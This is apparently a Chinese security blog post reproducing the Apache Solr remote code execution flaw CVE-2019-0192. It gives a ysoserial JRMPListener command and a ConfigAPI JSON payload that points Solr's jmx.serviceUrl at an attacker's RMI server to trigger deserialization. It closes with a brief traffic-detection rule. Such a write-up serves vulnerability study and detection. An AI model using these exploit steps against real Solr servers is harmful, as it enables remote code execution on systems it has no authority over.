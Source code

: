 ```yaml
---
layout: post
title:  "Apache Solr 远程命令执行漏洞(CVE-2019-0192)" 
date:   2019-08-05 13:47:46
categories: Development
author: co0ontty
categories: 安全开发 漏洞复现 ALL
tags: 安全开发 漏洞复现 ALL
describe: Apache Solr 远程命令执行漏洞(CVE-2019-0192)
cover: '/assets/img/posts/0d543f9aec58561aabc164648a1809d8.png'
---
```


## Apache Solr 远程命令执行漏洞(CVE-2019-0192)

### 漏洞概述

 Apache Solr中的ConfigAPI允许设置一个jmx.serviceUrl，它将创建一个新的JMXConnectorServerFactory，并通过“绑定”操作触发对目标RMI/LDAP服务器的调用。恶意的RMI服务器可以响应任意的对象，这些对象将在Solr端使用java的ObjectInputStream反序列化，这被认为是不安全的。这种类型的漏洞可以利用ysoserial工具。根据目标类路径，攻击者可以使用其中一个“gadget chain”来触发Solr端上的远程代码执行。

### 漏洞环境搭建

参考：[环境安装教程](https://blog.csdn.net/yalecaltech/article/details/88829590)

### 漏洞复现

1、环境成功运行之后，切换到 ysoserial.jar 的目录下，运行：

```cmd
java -cp ysoserial.jar ysoserial.exploit.JRMPListener 1234 Jdk7u21 calc.exe
# 其中 calc.exe 为需要执行的命令
```

使用 ysoserial.jar 在本地 1234 端口创建一个 rmi server，当反序列化数据 发送到 Server 中，然后 Server 中进行反序列化操作，并开启指定端口，然后在通过 JRMPClient 去发送攻击 payload 

2、使用 burpsuite 抓包 ip/solr/techproducts/config 

3、添加`content-type:application/json`和`content-length`

4、然后在 http_client_body 中插入 payload 

```html
{“set-property” : {“jmx.serviceUrl” : “service:jmx:rmi:///jndi/rmi://ysoserical's ip:ysoserical's port/obj”}}
```

### 流量分析

检测请求中是否包含 setProperty 方法，如果存在 setProperty 方法，且存在对 rmi 服务端的请求，则可以判定存在攻击行为

### 参考链接

[参考链接 from github](https://github.com/mpgn/CVE-2019-0192)

[参考链接 from 先知社区](https://xz.aliyun.com/t/4422)




